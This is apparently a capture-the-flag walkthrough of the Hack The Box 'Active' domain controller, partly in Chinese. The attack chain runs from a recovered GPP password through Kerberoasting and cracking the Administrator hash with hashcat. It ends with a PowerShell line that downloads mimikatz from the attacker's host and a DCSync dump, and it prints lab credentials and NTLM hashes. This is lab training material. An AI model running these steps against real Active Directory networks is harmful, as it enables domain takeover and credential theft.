

Active

Recon & Enum
export IP=10.10.10.100 -
nmap -sC -A -p- --min-rate 1000 -T4 $IP-PORT STATE SERVICE VERSION 53/tcp open domain Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1) | dns-nsid: |_ bind.version: Microsoft DNS 6.1.7601 (1DB15D39) 88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-01-11 13:22:10Z) 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name) 445/tcp open microsoft-ds? 464/tcp open kpasswd5? 593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 636/tcp open tcpwrapped 3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name) 3269/tcp open tcpwrapped 5722/tcp open msrpc Microsoft Windows RPC 9389/tcp open mc-nmf .NET Message Framing 47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-title: Not Found |_http-server-header: Microsoft-HTTPAPI/2.0 49152/tcp open msrpc Microsoft Windows RPC 49153/tcp open msrpc Microsoft Windows RPC 49154/tcp open msrpc Microsoft Windows RPC 49155/tcp open msrpc Microsoft Windows RPC 49157/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 49158/tcp open msrpc Microsoft Windows RPC 49165/tcp open msrpc Microsoft Windows RPC 49170/tcp open msrpc Microsoft Windows RPC 49171/tcp open msrpc Microsoft Windows RPC Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port Aggressive OS guesses: Microsoft Windows 7 SP1 (96%), Microsoft Windows 7 (95%), Microsoft Windows 7 or Windows Server 2008 R2 (94%), Microsoft Windows Server 2008 R2 (94%), Microsoft Windows 10 (93%), Microsoft Windows 10 1507 (93%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows 10 1511 (93%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (93%), Microsoft Windows Server 2008 SP1 (93%) No exact OS matches for host (test conditions non-ideal). Network Distance: 2 hops Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows Host script results: | smb2-time: | date: 2024-01-11T13:23:21 |_ start_date: 2024-01-11T00:12:28 |_clock-skew: -23s | smb2-security-mode: | 2:1:0: |_ Message signing enabled and requiredldapsearch- enum4linuxldapsearch -H "ldap://$IP" -x -s base namingcontexts --- dn: namingContexts: DC=active,DC=htb namingContexts: CN=Configuration,DC=active,DC=htb namingContexts: CN=Schema,CN=Configuration,DC=active,DC=htb namingContexts: DC=DomainDnsZones,DC=active,DC=htb namingContexts: DC=ForestDnsZones,DC=active,DC=htb ldapsearch -H "ldap://$IP" -x -b "DC=active,DC=htb" --- Null发现部分 SMB Shares -
smbclient //10.10.10.100/Replication
发现了4个文件，并在其中发现了账户
active.htb\SVC_TGS和被加密的密码：edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
Shell as User - SVC_TGS
 是 AES-256 加密，可以使用
是 AES-256 加密，可以使用 gpp-decrypt 解密

active.htb/SVC_TGS:GPPstillStandingStrong2k18
- 继续枚举 Samba Shares
crackmapexec smb $IP -u SVC_TGS -p 'GPPstillStandingStrong2k18' --shares
---
SMB 10.10.10.100 445 DC [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB 10.10.10.100 445 DC [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
SMB 10.10.10.100 445 DC [+] Enumerated shares
SMB 10.10.10.100 445 DC Share Permissions Remark
SMB 10.10.10.100 445 DC ----- ----------- ------
SMB 10.10.10.100 445 DC ADMIN$ Remote Admin
SMB 10.10.10.100 445 DC C$ Default share
SMB 10.10.10.100 445 DC IPC$ Remote IPC
SMB 10.10.10.100 445 DC NETLOGON READ Logon server share
SMB 10.10.10.100 445 DC Replication READ
SMB 10.10.10.100 445 DC SYSVOL READ Logon server share
SMB 10.10.10.100 445 DC Users READ
 - 遛狗
- 遛狗
 但是没 shell，操作不了
但是没 shell，操作不了
Shell as Root
- 查看设置了 SPN 的账户，发现 administrator
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip $IP -dc-host DC.active.htb
- 尝试 Kerberoasting 获取服务 Hash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip $IP -dc-host DC.active.htb -request
- 爆破 Hash
hashcat -m 13100 hash.list /usr/share/wordlists/rockyou.txt --- $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$ab13391da2a1d4d8992ba3d12d3927ef$26a5ea21be878ceff5464e9c76c032fac700d4ec0b10566a55fdefbf7c629fa1c63e2b6c10a34e6517e704b3cd9909493a6944f60416772d662d7284c2d5733cc3fa0fda0819dcda9f581e7a3d5fad7227966886ee1349e01c297c1e3656e02a1d790ec71161c80d5d4143d84975fa67512ab2f17acd0d4a2104744d4c576d7e207460ddd6a9f754123176ea901f33c0b3f58e64658c81b81df8f996f44b764e7970ae9d265032925db343bfac983471b6b8690319e8d8c8cfa2709ff2e19b458a20d5524ca25dbefd49ebf24625ffcc8707e2d0578e418fba6ab474c428f26c853126f8901a733540577a7f739f425ee1683b51b5b32de021b2facbc1f04292d8a5bb35c03c7541f6d95cc939ddc198612d88ef9df6d20e20651d2cc48b10edfc3ec470ddd7488b42ffeb92b0bc733c5120273b0a600fee4cda1777042d88b5376ea32176dfbb405165824fdcb5715db92521599469a137c41fffe5e079985a7646ea6859b4c5a656bc8ef4c6aea250f8eafcc080e4a039146e474dab7f18221d518ae85381596aefc231b72df63e92935c483addbc4b2e6cb49be7162526cc30cc78bbe6e638115188ccee8a20d3d10fe3e5604567d6908d92ab09054ab8c46172438dc964c7075749bf4a94122e7dc6bd0cd2dd737c194fbc671d087a36fcd84d1f500377970246036e8deab3712977d8615deb600f38a27253a908d9544b9dff17a7dbdd36e5c70c6b2a99814f822c6b74d1a3646f88ce93a391f3e384ac81fe142dce20bf2273e457d74c7184ff1e0799473139ea7e1dd18c293819b922a66b8d5b0872f352cba575cee04fda5ee9f834c470051aa6e4d083411a092923d23334f13550437cbd92fd6da6d5cd322fa321c379e89535685110027522852e7e1ee79350ced72ec807cab49afd0c8b8c9c607f665c43d318f4a22135f20a33da060aa5ee8914d5e59c143bfe64e3f95c2497ea613e7d7eb42650709bc77feb4e66fc26cde267c5332a1d015ec0095d3eacf1ce016778db78df448e22a113bbe11f151cce087c2dff879de0a6b305caf0bcb3f36b63e97a7b4079972395c472c6ae3bd4b72b6f6efae046a69dcf6bc5cd370d366c4f89ee0dc41d0aa95231a994764e2d45e61a5720d20cec8b5fe12548527143b187b4eda59cc94ec2729d29ea0424dce5a2c8f459fe23f3957a6bd4f08883932867fdf8f29b2b805f9a769f479f2a1f7d2029aeea8fa44c891bf6089947580f2a707747bf7f:Ticketmaster1968 Administrator:Ticketmaster1968
Dump Hash
powershell (new-object System.Net.WebClient).DownloadFile('http://10.10.16.18/mimikatz.exe','C:\Windows\Temp\mimikatz.exe')
C:\Windows\Temp\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::dcsync /domain:active.htb /all /csv" exit
--- Local
Administrator:5c15eb37006fb74c21a5d1e2144b726e
--- Domain
502 krbtgt b889e0d47d6fe22c8f0463a717f460dc 514
500 Administrator 5ffb4aaaf9b63dc519eca04aec0e8bed 66048
1000 DC$ ad785e2162b240a84dc409c0a4555b0a 532480
1103 SVC_TGS f54f3a1d3c38140684ff4dad029f25b5 66048